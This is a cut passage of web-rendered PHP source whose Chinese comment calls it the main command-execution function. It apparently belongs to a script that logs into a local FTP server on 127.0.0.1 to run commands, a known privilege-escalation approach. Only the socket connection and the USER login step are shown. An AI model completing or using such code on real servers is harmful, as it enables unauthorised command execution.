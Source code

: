     <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;fgets&nbsp;($fp,128);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">}</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">}</span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">//执行命令主函数定义</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">function&nbsp;ftpcmd($ftpport,$user,$password,$dir,$cmd){</span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">$conn_id&nbsp;=&nbsp;fsockopen&nbsp;("127.0.0.1",&nbsp;$ftpport,&nbsp;$errno,&nbsp;$errstr,&nbsp;8);</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">if&nbsp;(!$conn_id)&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;"$errstr&nbsp;($errno)<br>\n";</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">}&nbsp;else&nbsp;{</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"USER&nbsp;".$user."");</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);</span>&nbsp;</span>